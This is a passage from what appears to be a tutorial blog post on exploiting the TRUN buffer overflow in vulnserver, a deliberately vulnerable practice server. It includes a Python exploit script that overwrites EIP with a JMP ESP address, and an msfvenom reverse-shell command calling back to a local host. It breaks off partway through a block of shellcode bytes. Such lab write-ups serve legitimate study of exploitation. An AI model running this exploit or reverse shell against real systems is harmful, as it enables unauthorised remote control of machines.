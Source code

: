 Now that we can control what address gets executed next, we want to find a JMP ESP instruction, which will allow us to jump to our payload (ESP register). 

We can use the command `!mona jmp -r esp` to locate JMP ESP instructions in the application, if there is no JMP ESP, a CALL ESP instruction works just as well.

![vulnserver 8](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver8.png)

Now instead of 4 B's, we want to use one of the JMP ESP's addresses instead.

## Note about security mitigations

This vulnerable application has been and has it's .DLLs compiled without ASLR (address space layout randomization) which would randomize addresses like the JMP ESPs we need to use if ASLR is ever enabled, it make exploitation **MUCH** harder, but that is not in-scope for this tutorial.

Note to developers: always compile with ASLR if you can! If makes the attacker's job a lot harder.

We will use the first one that is listed, and since this is a memory address from the application, you need to reverse it, in little-endian format. You can easily do this with the python struct module.

```python
import socket

victim_host = "10.0.0.161"
port = 9999

payload = "A" * 2003  # calculated buffer size
payload += struct.pack("<L", 0x625011AF) # JMP ESP address being converted into little endian format
payload += "C" * 500  # padding to ensure a crash

buffer_exploit = "TRUN /.:/" + payload

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)

print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```
If you run your exploit now, you can see your JMP ESP gets loaded into the EIP register. Now, all we need to do is add a NOPSLED after our JMP, a NOPSLED is comprised of the NOP instruction in assembly, denoted by its 0x90 opcode. This will allow for a clean jump, where our JMP ESP will land in a NOPSLED and cleanly move down the execution chain to our shellcode's first address.

## Generate shellcode

We will use a reverse shell payload generated from msfvenom

```python
# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.78 LPORT=4444 -b "\x00" -v shellcode -f c -f python

shellcode =  "" # shellcode without \x00 as a bad character
shellcode += "\xbb\xe8\x37\x7b\xfa\xda\xd1\xd9\x74\x24\xf4\x5a"
shellcode += "\x2b\xc9\xb1\x52\x83\xc2\x04\x31\x5a\x0e\x03\xb2"
shellcode += "\x39\x99\x0f\xbe\xae\xdf\xf0\x3e\x2f\x80\x79\xdb"
shellcode += "\x1e\x80\x1e\xa8\x31\x30\x54\xfc\xbd\xbb\x38\x14"
shellcode += "\x35\xc9\x94\x1b\xfe\x64\xc3\x12\xff\xd5\x37\x35"
shellcode += "\x83\x27\x64\x95\xba\xe7\x79\xd4\xfb\x1a\x73\x84"
shellcode += "\x54\x50\x26\x38\xd0\x2c\xfb\xb3\xaa\xa1\x7b\x20"
shellcode += "\x7a\xc3\xaa\xf7\xf0\x9a\x6c\xf6\xd5\x96\x24\xe0"
shellcode += "\x3a\x92\xff\x9b\x89\x68\xfe\x4d\xc0\x91\xad\xb0"
```